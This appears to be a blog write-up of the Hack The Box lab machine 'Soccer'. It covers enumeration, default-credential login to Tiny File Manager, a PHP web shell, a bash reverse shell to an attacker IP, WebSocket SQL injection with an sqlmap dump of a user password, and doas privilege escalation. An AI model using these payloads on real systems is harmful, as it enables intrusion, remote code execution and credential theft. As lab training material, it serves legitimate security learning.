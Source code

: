 ```yaml
---
title: "Soccer"
date: 15-04-2025
categories: [Linux, Easy]
tags: [Easy, PHP, Web Shell,WebSockets, SQL Injection, Doas, SQLMap]
image: https://labs.hackthebox.com/storage/avatars/ca7f69a02eebf53deb3cd1611dd3f55e.png
---
```


Soccer is an easy Linux machine. It has three ports open one of which is a webpage that contain a `tiny file manager` instance running. Using default credentials we are able to access it and upload a `php` web shell which lets us get a reverse shell as a low privilege user. Using this user we can enumerate the machine and see that it has a hidden subdomain which contains a WebSocket that sends data containing ticket numbers. This is socket is vulnerable to an `sql` injection, using `sqlmap` we can dump the database contents which contains a cleartext password of the user on the home directory of the machine. After some enumeration we find that the binary `doas` has the `setuid` bit set which lets us run a binary as the root user. This binary lets us keep root privileges.

![soccer_info_card](assets/images/soccer/Soccer.png)

## Enumeration

#### NMap
From the nmap scan we can observe that there are three ports open. SSH and an http port which leads to a webpage with a file manager application running. Port 9091 is not standard and going to it returns some errors, this will become useful later on.
![soccer](assets/images/soccer/Pasted image 20250414083223.png)

#### Tiny file manager

Going over to the website running on port 80 gives us a soccer themed site. There is not much we can click on so I ran a `ffuf` scan to see what other directories there are on this page. I also ran some VHOST scanning but they did not return any subdomains.

```
ffuf -w /opt/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://soccer.htb/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://soccer.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 16ms]
tiny                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 14ms]
:: Progress: [30000/30000] :: Job [1/1] :: 1886 req/sec :: Duration: [0:00:16] :: Errors: 2 ::
```

Gong over to `http://soccer.htb/tiny` and we can see a login page to access the tiny file manager. 
![soccer](assets/images/soccer/Pasted image 20250414083800.png)

Since we have no credentials and we do not have any other way to get them I decide to look up for the default credentials to login into the application. A simple google search returns that these are `admin/admin@123; user/12345` . Using the first set of admin credentials works and we are now in the file manager.

![soccer](assets/images/soccer/Pasted image 20250414084130.png)

#### PHP reverse shell

I looked around the application and found that there is a `php` file being hosted in the directory `tiny`.  This gave me an idea to upload my own `php` shell into the file manager and the site allows us to open the `php` files which execute the code. I created a simple file with the following contents:  `<?php system($_GET["cmd"]); ?>` after naming this file `shell.php` and navigating to `http://soccer.htb/tiny/uploads/shell.php` lets us use our web shell, we can now specify which commands to execute with `?cmd=`. 

![soccer](assets/images/soccer/Pasted image 20250413201002.png)
Using the following payload I get a reverse shell back to my machine: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/9001 0>&1'`


![soccer](assets/images/soccer/Pasted image 20250413201225.png)

Since we get the shell as `www-data` we are not able to do much, we have no write permissions so we are not able to download external software to help us escalate our privileges. In this case I tried to look for interesting information on the server, like databases or configuration files. I was not able to find any. Looking at the running services and ports on the machine I see that there is a `mysql` instance running on port 3306 and the same port `9091` that we saw earlier.  In the home directory I see a user `player` but we cannot read any of his files.

![soccer](assets/images/soccer/Pasted image 20250414085626.png)

Since this port seems to be running a hidden service I decide to investigate further and look at the `/etc/hosts` file of this server. I see a new subdomain `soc-player.soccer.htb`. After adding this to my own hosts file and going to `http://soc-player.soccer.htb/` we can see a new webpage that has more functionality that the other one. 

![soccer](assets/images/soccer/Pasted image 20250413203107.png)

## Hidden Subdomain

The website has a login form to access a tickets page. I tried logging in with the same credentials as before but they did not work. Luckily the page lets us register a new user. After logging in we are presented with a page that lets us check if a given ticket exists. 

![soccer](assets/images/soccer/Pasted image 20250414090500.png)

Looking at the source code of the website I see that its sending this data through a WebSocket over port 9091. This is quite weird but now we found the reason for that port being open. The client sends the following payload to the server:

```json
{
	"id":"74853"
}
```

## SQL Injection
The server then will respond with either `Ticket Exists` or `Ticket does not exist`.  The other parts of the webpage do not seem like it could lead us to a shell or sensitive information. Since this is the only part that lets us put user input and send it to the server the vulnerability has to be here. I spent a lot of time here and had to ask for a hint, I already had seen that there was a `mysql` database running on the machine. I was missing that there is an SQL injection in this WebSocket. 

```json
{
	"id":"74823 OR 1=1 -- -"
}
```

Sending this payload to the WebSocket returns `Ticket Exists` even though this ticket does not exist.  I first used a payload with a single quotes after the ticket number but it did not work, the SQL injection only works with the above payload. This injection is not very useful but it allows us to see that the server is vulnerable and we can run `SQLMap` to dump the database contents. 

Using the following command I am able to dump the database which contains the password for the user we saw previously on the box
`sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"*"}' --risk 3 --level 5 --dbs --batch --dbms=mysql`

Without a higher level of risk or level `sqlmap` is not able to find the injection. We can specify that the database is `mysql` since we already saw it was running on port 3306. We get a database: `soccer_db` which contains a table with user information after dumping it we get the following data. 

```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

## Privilege Escalation

Using the credentials `player:PlayerOftheMatch2022` I am able to ssh into the machine. After some enumeration I ran the command `find / -type f -perm -4000 2>/dev/null` which shows that we can run `doas` as root. After some research I find that we have to view its configuration file to find out which binary we can run as root. I used [this](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/) article as a reference. 

```
find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~/snap$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

From this we can see that we can run `dstat` as root. I checked [GTFO](https://gtfobins.github.io/gtfobins/dstat/) bins to see if this binary was exploitable and it was. Running the following command lets us keep root privileges. 

![soccer](assets/images/soccer/Pasted image 20250414100216.png)